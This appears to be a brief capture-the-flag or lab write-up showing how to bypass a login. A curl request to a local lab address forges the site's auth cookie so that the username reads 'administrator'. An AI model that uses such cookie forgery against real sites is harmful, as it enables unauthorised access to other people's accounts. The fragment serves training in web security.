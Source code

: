 Go to the site and log in; you'll get a cookie set such as:

    username=guest&date=2017-01-28T17:12:33-0800&secret_length=8&

All you have to do is change the username:

    curl 'http://172.17.0.2/index.php' -H 'Cookie: auth=username%3Dadministrator%26date%3D2017-02-02T03%3A41%3A45%2B0000%26'
